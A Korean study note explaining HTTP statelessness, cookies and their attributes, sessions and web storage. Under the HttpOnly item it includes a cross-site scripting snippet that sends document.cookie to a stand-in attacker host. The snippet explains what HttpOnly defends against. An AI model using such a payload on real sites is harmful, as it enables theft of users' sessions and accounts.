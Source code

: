 # cookie, session, webstorage

## HTTP 프로토콜의 특징
- 비연결지향 (Connectionless): 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
- 무상태 (Stateless): 통신이 끝나면 상태 정보를 유지하지 않는다.
- 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화된다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 쿠키, 세션 그리고 웹 스토리지

## 쿠키(cookie)
- 쿠키는 클라이언트 로컬에 저장되는 키와 값 형태의 작은 파일로 이름, 값, 만료 시간, 경로 정보가 저장
- 쿠키는 주로 세 가지 목적을 위해 사용
    - 세션 관리: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
    - 사용자 맞춤: 사용자가 선호하는 옵션이나 테마 등의 세팅
    - 사용자 추적: 사용자의 행동을 기록하고 분석하는 용도
- Response Header의 Set-Cookie 속성을 사용하면 클라이언트에 쿠키를 만들 수 있으며 만들어진 쿠키는 클라이언트가 따로 설정하지 않아도 브라우저가 Request Header에 넣어서 서버로 전송

1. 서버의 HTTP 응답 헤더에서 쿠키를 설정
```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: name=hellozin
Set-Cookie: job=developer
```

2. 이후 클라이언트에서 보내는 모든 요청에 브라우저는 Cookie 헤더를 통해 저장된 모든 쿠키를 전송
```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=hellozin; job=developer
```

3. 이렇게 만들어진 쿠키는 스코프에 의해 크게 두가지로 나눌 수 있다.
   - 클라이언트가 종료되면 삭제되는 휘발성 쿠키인 `Session Cookie`
   - 클라이언트가 종료되어도 일정 기간 유지되는 `Permanent Cookie`

4. Permanent Cookie는 Expires(날짜와 시간) 혹은 Max-Age(초) 를 명시해 해당 날짜, 혹은 시간까지 쿠키를 유지할 수 있고 아무것도 명시하지 않을 경우 Session Cookie 가 된다.

`명시된 만료일, 시간은 서버가 아닌 클라이언트를 기준으로 계산`

5. Domain과 Path 속성은 쿠키의 스코프를 정의
   
6. Domain 속성이 명시되면 해당 쿠키는 서브 도메인에도 포함되고 명시되지 않을 경우 현재 문서 위치의 호스트 일부를 기본값으로 한다.
```
Domain=naver.com 의 쿠키가 포함되는 서브도메인의 예
- news.naver.com
- m.naver.com
```

7. Path 속성이 명시되면 해당 쿠키는 명시된 path가 포함된 서브 디렉토리에 포함
   
```
Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
- /docs/Web/
- /docs/Web/HTTP
```

8. Secure 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함된다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안된다.

9. HttpOnly 속성은 자바스크립트의 `Document.cookie` API에 의해 쿠키가 접근되는 것을 방지한다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 준다.
```
Set-Cookie: password=DontDoThat; Secure; HttpOnly

// Cross-site 스크립팅(XXS) 공격의 예
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + 
document.cookie;
```

## 세션(session)
- 세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술
- 클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 준다.
- 이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제된다.

## 웹스토리지(webstorage)
- **웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능
- **쿠키**와 기능 자체는 유사하지만 **4KB** 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 **5MB** 까지 저장공간을 이용할 수 있다.
  - 로컬 스토리지 : 로컬 스토리지는 브라우저 자체에 반영구적으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지된다. 다만 도메인이 다른 경우 로컬 스토리지에 접근할 수 없다. 예를 들어 **naver.com** 로컬 스토리지에서 저장한 데이터는 **google.com** 에서 접근할 수 없는 것과 같다.
  - 세션 스토리지: 세션 스토리지는 각 세션마다 데이터가 개별적으로 저장되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 자동으로 제거되며 같은 도메인이라도 세션이 다르면 데이터에 접근할 수 없다.
